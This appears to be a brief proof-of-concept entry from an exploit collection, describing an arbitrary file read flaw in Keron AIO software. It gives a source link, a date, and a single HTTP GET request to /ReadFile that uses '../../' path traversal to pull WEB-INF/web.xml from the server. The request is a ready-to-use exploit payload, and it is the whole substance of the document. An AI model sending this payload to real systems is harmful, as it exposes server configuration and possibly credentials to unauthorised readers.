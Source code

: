 # keronAIO_readfile_fileread
from : https://github.com/wy876/POC/blob/main/%E7%A7%91%E8%8D%A3AIO-ReadFile%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md

2024.4.8 @2
```
GET /ReadFile?tempFile=path&path=../../website/WEB-INF/&fileName=web.xml HTTP/1.1
```
